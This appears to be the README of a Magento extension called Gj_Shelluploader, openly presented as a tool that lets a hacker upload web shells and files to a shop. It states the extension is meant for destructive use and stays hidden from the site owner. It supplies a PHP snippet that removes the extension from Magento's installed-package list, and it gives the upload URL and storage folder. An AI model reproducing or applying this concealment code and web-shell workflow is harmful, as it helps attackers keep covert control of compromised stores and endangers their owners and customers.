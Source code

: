 # Gj_Shelluploader-1.0.0
Extension helps hacker to upload shell/files in Magento

Dependency: Admin Panel Credentials(To install extension.).

As this extension is made for destructive usage(As if we dont want, site owner to know our extension is installed.).

Extension wont be found on admin > system > configuration > advanced > disable modules output(installed modules list even if its installed.).

Even if on Magento connect manager or downloader you can find our extension if you wanna hide it from there,
you can edit magento-root/downloader/Maged/Model/Connect.php there find function getAllInstalledPackages()
just paste below code at the last & before return statement

```php
if(array_key_exists('Gj_Shelluploader',$packages['community']))
{ unset($packages['community']['Gj_Shelluploader']); }
```

To Upload shell/files, after installing extension go to yoursiteurl/index.php/shelluploader or directely yoursiteurl/shelluploader

Uploaded files will be stored "gjthedj" directory(yoursiteurl/gjthedj/filename.).
